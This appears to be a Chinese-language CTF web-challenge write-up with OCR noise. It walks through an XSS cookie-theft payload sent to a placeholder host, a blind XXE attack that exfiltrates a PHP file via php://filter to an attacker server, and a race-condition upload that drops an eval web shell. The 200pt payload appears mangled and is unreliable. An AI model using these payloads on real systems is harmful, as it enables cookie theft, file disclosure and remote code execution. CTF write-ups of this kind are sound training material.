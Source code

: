 ### 200pt

提交参数输出到 onerror 事件中,用 js 做了过滤,不能出现关键字,不能有“+”。 基础 payload 为

```
￼window['location']="http://xxx/"+document['cookie'] 
```

想到用字符拼接绕过关键字过滤,用

```
￼'coo''CONCAT'.toLowerCase() 
```

这种方式绕过“+”,最终 payload 为

```
"><window'loca'['CONCAT'.toLowerCase()]='http://xxx/''CONCAT'.toLowerCase()]('kie')]);> 
```

url 编码后提交得到 flag。

### 300pt

根据题面猜测是 XML 实体注入。先找了一些中文网站的 payload 试了一下,发觉都不行,感觉主要原因是因为没有回显(结合题面的吐槽进一步确定 了)。于是开始 Google。发现了这篇 paper: [`media.blackhat.com/eu-13/briefings/Osipov/bh-eu-13-XML-data-osipov-wp.pdf`](https://media.blackhat.com/eu-13/briefings/Osipov/bh-eu-13-XML-data-osipov-wp.pdf)。

pdf 里讲得很详细,有 exploit 可用。 网页上填写内容为: ￼￼￼

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://ourserver_ip/xdb.xml">
    %remote;
    %param1; 
]>
<root>&external;</root> 
```

￼xdb.xml 的内容为:

```
<!ENTITY % payload SYSTEM "php://filter/read=convert.base64-encode/resource=bb.php"> 
<!ENTITY % param1 "<!ENTITY external SYSTEM 'http://ourserver_ip/log.php?msg=%payload;'>"> 
```

要注意的地方是,这里不能直接用 file 协议取 bb.php 的内容,因为绝对路径不确定感觉。所以采用 php://filter 以及 base64-encode 的 trick。最后读到的 msg 再 base64_decode 一下就出来 flag 了。

### 400pt

web400a 就是抓包会看到一个文件上传的表单,上传文件后会给出上传后的路径和文件名,发现文件名与当前时间相关。 如/upload/upload/20140920170801.php。但是访问的时候会发现被删了。因此需要不断发生请求在被删之前访问到上传上去的脚本。脚本内容为在上一 级目录生成一句话。

```
<?php file_put_contents('../salt.php', '<?php eval($_POST["c"]); ?>'); ?> 
```
